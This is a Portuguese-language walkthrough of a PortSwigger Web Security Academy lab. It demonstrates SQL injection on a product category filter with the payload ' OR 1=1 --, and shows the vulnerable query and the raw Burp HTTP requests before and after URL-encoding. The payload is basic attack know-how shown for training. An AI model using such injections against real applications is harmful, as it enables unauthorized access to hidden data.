 O laboratório informa que quando o usuário seleciona uma categoria, o aplicativo realiza uma consulta SQL como a seguinte:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

Então vamos analisar a requisição feita ao selecionar a categoria `Pets`:

```http

GET /filter?category=Pets HTTP/1.1
Host: 0a660089033a433bc3b00de200280005.web-security-academy.net
Cookie: session=x7FO72g8FfEQVVR5kS7KbQ0glInqcYid
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0a660089033a433bc3b00de200280005.web-security-academy.net/filter?category=Gifts
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

```

Percebemos que na requisição, o parâmetro `category` está recebendo o valor `Pets`, então é através desse parâmetro que o aplicativo está realizando a consulta `SQL` no back-end.

Para triggar a vulnerabilidade de `SQL Injection`, iremos utilizar o seguinte payload:

```sql
' OR 1=1 --
```

O payload acima, irá fazer com que a consulta `SQL` fique da seguinte forma:

```sql

SELECT * FROM products WHERE category = '' OR 1=1 --' AND released = 1

```

Dessa forma o aplicativo irá retornar todos os produtos, pois a condição `1=1` sempre será verdadeira e o resto da query estará comentado. Porém como se trata de um parâmetro passado através da `URL`, teremos que fazer o encode do payload para Url, para isso, utilizaremos uma função nativa do burp onde basta selecionar o texto, clicar com o botão direito do mouse e ir em em `Convert Selection > URL > URL-encode key characters`.

Entao nossa requisição ficará da seguinte forma:

```http

GET /filter?category='+OR+1%3d1+--  HTTP/1.1
Host: 0a660089033a433bc3b00de200280005.web-security-academy.net
Cookie: session=hygwt2ggXhRwziIYqbCxGXxj1GJGvms0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0a660089033a433bc3b00de200280005.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```